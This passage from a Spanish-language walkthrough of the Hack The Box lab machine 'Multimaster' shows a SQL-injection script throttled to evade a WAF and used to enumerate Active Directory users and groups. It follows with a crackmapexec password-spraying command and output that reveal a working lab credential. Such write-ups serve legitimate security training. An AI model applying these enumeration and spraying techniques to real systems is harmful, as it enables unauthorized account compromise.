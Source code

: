 ```null
        print(toprint)

        time.sleep(1) # Necesario para que no bloquee el WAF
```

Ejecuto el script y almaceno todo el output en un archivo

```null
python3 sqli_tampers.py > data
```

En el intervalo que he introducido, solo va a reportar grupos

```null
"name": "MEGACORP\\Administrator",
"name": "MEGACORP\\Guest",
"name": "MEGACORP\\krbtgt",
"name": "MEGACORP\\DefaultAccount",
"name": "MEGACORP\\Domain Admins",
"name": "MEGACORP\\Domain Users",
"name": "MEGACORP\\Domain Guests",
"name": "MEGACORP\\Domain Computers",
"name": "MEGACORP\\Domain Controllers",
"name": "MEGACORP\\Cert Publishers",
"name": "MEGACORP\\Schema Admins",
"name": "MEGACORP\\Enterprise Admins",
"name": "MEGACORP\\Group Policy Creator Owners",
"name": "MEGACORP\\Read-only Domain Controllers",
"name": "MEGACORP\\Cloneable Domain Controllers",
"name": "MEGACORP\\Protected Users",
"name": "MEGACORP\\Key Admins",
"name": "MEGACORP\\Enterprise Key Admins",
```

Para poder ver los usuarios, es mejor iterar desde el 1000 hacia delante

Consigo 3 nuevos

```null
"name": "MEGACORP\\tushikikatomo",
"name": "MEGACORP\\andrew",
"name": "MEGACORP\\lana",
```

Como tengo contraseñas de antes, pruebo un password spraying

```null
crackmapexec smb 10.10.10.179 -u new_users -p passwords
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\andrew:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\andrew:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\andrew:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\tushikikatomo:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\tushikikatomo:finance1 
```
